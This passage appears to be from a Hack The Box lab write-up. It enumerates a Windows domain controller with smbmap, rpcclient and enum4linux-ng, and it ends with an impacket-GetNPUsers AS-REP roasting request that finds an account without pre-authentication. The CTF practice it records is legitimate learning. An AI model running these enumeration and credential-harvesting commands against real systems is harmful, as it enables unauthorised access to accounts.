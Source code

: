 ```bash
┌──(kali㉿kali)-[~/HTB/10.10.10.161]
└─$ smbmap -H 10.10.10.161                           
[+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      

┌──(kali㉿kali)-[~/HTB/10.10.10.161]
└─$ smbmap -H 10.10.10.161 -u "guest"
[!] Authentication error on 10.10.10.161

┌──(kali㉿kali)-[~/HTB/10.10.10.161]
└─$ smbmap -H 10.10.10.161 -u ""     
[+] IP: 10.10.10.161:445        Name: 10.10.10.161
```

And RPC either but no luck 

```
┌──(kali㉿kali)-[~/HTB/10.10.10.161]
└─$ rpcclient -U "" 10.10.10.161 
Enter WORKGROUP\'s password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
                                 
┌──(kali㉿kali)-[~/HTB/10.10.10.161]
└─$ rpcclient 10.10.10.161                              
Enter WORKGROUP\kali's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

Enum4linux find possible username. This is useful for kerberoarsting maybe later. I start using [enum4linux-ng](https://github.com/cddmp/enum4linux-ng). Script use python3 except perl and it is still actively maintained. I just look look for usernames here...

```
└─$ ~/tools/enum4linux-ng/enum4linux-ng.py 10.10.10.161 | grep username
[+] Server allows session using username '', password ''

[snip...]

  username: sebastien
  username: lucinda
  username: svc-alfresco
  username: andy
  username: mark
  username: santi
  username: Administrator
  username: Guest
  username: krbtgt
  username: DefaultAccount
```

As I did not find anything usefull I tried to run command `impacket-GetNPUsers`. This command will get me all accounts where no AS-REP is not required. This settings has to be set up manually by administrator. I believe it was used when older system couldn't talk to kerberos properly. 

```
impacket-GetNPUsers htb.local/  -request -format hashcat -dc-ip 10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-12-19 01:15:55.875544  2019-09-23 07:09:47.931194  0x410200 



```